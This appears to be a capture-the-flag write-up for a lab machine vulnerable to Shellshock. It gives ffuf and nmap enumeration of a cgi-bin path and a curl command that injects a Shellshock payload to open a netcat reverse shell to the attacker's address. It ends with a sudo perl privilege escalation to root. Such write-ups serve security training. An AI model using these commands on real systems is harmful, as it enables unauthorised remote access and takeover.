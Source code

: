 ### Foothold
403 get the CGI existed. Then easy to found some resources

https://book.hacktricks.xyz/pentesting/pentesting-web/cgi

https://github.com/opsxcq/exploit-CVE-2014-6271

##### Hard part is looking for a vuln path
```
# Nothing worse than try everything. But things happened here. Have to find the entry with unusual extensions
ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .sh,.cgi,.pl -fc 403

# Verify it
nmap 10.x.x.x -p 80 --script=http-shellshock --script-args uri=/cgi-bin/path_been_found
```
##### Get the reverses shell
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.x.x 4242 >/tmp/f'" \
http://10.10.10.56:80/cgi-bin/user.sh
```

### Priv
```
sudo -l
sudo perl -e 'exec "/bin/sh";'
```
